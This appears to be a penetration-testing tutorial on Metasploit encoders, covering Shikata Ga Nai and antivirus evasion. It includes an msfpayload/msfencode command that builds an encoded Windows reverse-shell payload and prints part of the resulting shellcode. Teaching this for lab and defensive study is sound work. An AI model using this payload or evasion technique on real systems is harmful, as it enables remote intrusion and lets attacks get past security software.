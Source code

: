 #msfconsole #MSFvenom #msf-virustotal
___

Over the 15 years of existence of the Metasploit Framework, `Encoders` have assisted with making payloads compatible with different processor architectures while at the same time helping with antivirus evasion. `Encoders` come into play with the role of changing the payload to run on different operating systems and architectures. These architectures include:

They are also needed to remove hexadecimal opcodes known as `bad characters` from the payload. Not only that but encoding the payload in different formats could help with the AV detection as mentioned above. However, the use of encoders strictly for AV evasion has diminished over time, as IPS/IDS manufacturers have improved how their protection software deals with signatures in malware and viruses.

Shikata Ga Nai (`SGN`) is one of the most utilized Encoding schemes today because it is so hard to detect that payloads encoded through its mechanism are not universally undetectable anymore. Far from it. The name (`仕方がない`) means `It cannot be helped` or `Nothing can be done about it`, and rightfully so if we were reading this a few years ago. However, there are other methodologies we will explore to evade protection systems. [This article from FireEye](https://www.fireeye.com/blog/threat-research/2019/10/shikata-ga-nai-encoder-still-going-strong.html) details the why and the how of Shikata Ga Nai's previous rule over the other encoders.

___

## Selecting an Encoder

Before 2015, the Metasploit Framework had different submodules that took care of payloads and encoders. They were packed separately from the msfconsole script and were called `msfpayload` and `msfencode`. These two tools are located in `/usr/share/framework2/`.

If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward. A pipe would take the output from one command and feed it into the next, which would generate an encoded payload, ready to be sent and run on the target machine.

```shell
[!bash!]$ msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai

[*] x86/shikata_ga_nai succeeded with size 1636 (iteration=1)

my $buf = 
"\xbe\x7b\xe6\xcd\x7c\xd9\xf6\xd9\x74\x24\xf4\x58\x2b\xc9" .
"\x66\xb9\x92\x01\x31\x70\x17\x83\xc0\x04\x03\x70\x13\xe2" .
"\x8e\xc9\xe7\x76\x50\x3c\xd8\xf1\xf9\x2e\x7c\x91\x8e\xdd" .
"\x53\x1e\x18\x47\xc0\x8c\x87\xf5\x7d\x3b\x52\x88\x0e\xa6" .
"\xc3\x18\x92\x58\xdb\xcd\x74\xaa\x2a\x3a\x55\xae\x35\x36" .
"\xf0\x5d\xcf\x96\xd0\x81\xa7\xa2\x50\xb2\x0d\x64\xb6\x45" .
"\x06\x0d\xe6\xc4\x8d\x85\x97\x65\x3d\x0a\x37\xe3\xc9\xfc" .
"\xa4\x9c\x5c\x0b\x0b\x49\xbe\x5d\x0e\xdf\xfc\x2e\xc3\x9a" .
"\x3d\xd7\x82\x48\x4e\x72\x69\xb1\xfc\x34\x3e\xe2\xa8\xf9" .
"\xf1\x36\x67\x2c\xc2\x18\xb7\x1e\x13\x49\x97\x12\x03\xde" .
"\x85\xfe\x9e\xd4\x1d\xcb\xd4\x38\x7d\x39\x35\x6b\x5d\x6f" .
"\x50\x1d\xf8\xfd\xe9\x84\x41\x6d\x60\x29\x20\x12\x08\xe7" .
"\xcf\xa0\x82\x6e\x6a\x3a\x5e\x44\x58\x9c\xf2\xc3\xd6\xb9" .

<SNIP>
```
